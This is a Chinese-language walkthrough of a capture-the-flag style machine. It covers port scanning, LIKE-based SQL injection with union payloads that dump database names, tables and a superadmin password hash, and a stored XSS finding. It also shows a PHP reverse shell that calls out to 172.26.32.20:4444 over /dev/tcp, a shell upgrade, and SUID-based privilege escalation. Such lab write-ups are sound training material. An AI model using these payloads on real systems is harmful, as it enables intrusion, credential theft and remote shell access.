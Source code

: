 ## 扫描

```
扫描发现了开放端口22和80
```

## 服务枚举

```
对ssh进行尝试，可以使用密码登录
```

## web

## xss检测

> 首页是一个简单登录页面，用注册功能注册账户，发现是一个图书查询相关系统，页面头部有登录名的回显，注册一个带有xss语句的用户发现，并没有xss的注入漏洞

## sql注入

> 对注册和登录还有图书查询功能进行sql注入检测发现了注入漏洞

* ***图书查询功能的注入***
> 输入a会查询所有以a开头的数据，不输入会输出所有的数据，怀疑是like型注入，闭合符号为%'
> 输入语句 a%' and 1=1#,页面回显正常

![[Pasted image 20240111173856.png]]

![[Pasted image 20240111173912 1.png]]
> 经过测试数据有3列

![[Pasted image 20240111174000 1.png]]

> 得到数据库名webapphacking
![[Pasted image 20240111174052 1.png]]
> 查全部库

`a%' union select 1,group_concat(schema_name),3 from information_schema.schemata#`
![[Pasted image 20240111174229 1.png]]
> 查webapphacking中的表

`a%' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='webapphacking'#`
![[Pasted image 20240111174717 1.png]]
> 查users表中的全部字段

`a%' union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='webapphacking' and table_name='users'#`
![[Pasted image 20240111174842.png]]
> 查数据

`a%' union select 1,group_concat(user),3 from webapphacking.users#`
![[Pasted image 20240111175104.png]]

![[Pasted image 20240111175202.png]]
>**同时发现刚才注入的xss语句也被执行了，说明还存在存储的xss漏洞**


> 查找superadmin的密码

`a%' union select 1,group_concat(pasword),3 from webapphacking.users where user='superadmin'#`

![[Pasted image 20240111175425.png]]
> 得到superadmin的hash进行hash-identifier发现是md5，查找在线解密网站进行解密

![[Pasted image 20240111175700.png]]

> **返回登录界面进行登录后发现，是一个上传点**


![[Pasted image 20240111175827.png]]



> 直接尝试上传一个php的反弹shell

`<?php system("bash -c 'bash -i &>/dev/tcp/172.26.32.20/4444 0>&1'")?>`


## 提权

>终端升级
>/usr/bin/script -qc /bin/bash /dev/null
>export TERM=xterm 

> 查找网站的config.php配置文件，发现了数据库的root密码

![[Pasted image 20240111180114.png]]

> 而且查家目录发现了两个用户legacy 和hackme还有root。用这个密码进行尝试，发现并不是用户的凭据，登录mysql查看是否可以udf提权

![[Pasted image 20240111180401.png]]

> 发现不可以使用udf提权，寻找可写文件和有s位的文件

`find / -writable -type f 2>/dev/null | grep -v /proc | grep -v /sys`
`find / -perm -u=s -type f 2>/dev/null`

> 发现了legacy的家目录有一个touchmenot

![[Pasted image 20240111180648.png]]

>直接执行后发现提权成功

![[Pasted image 20240111180822.png]]














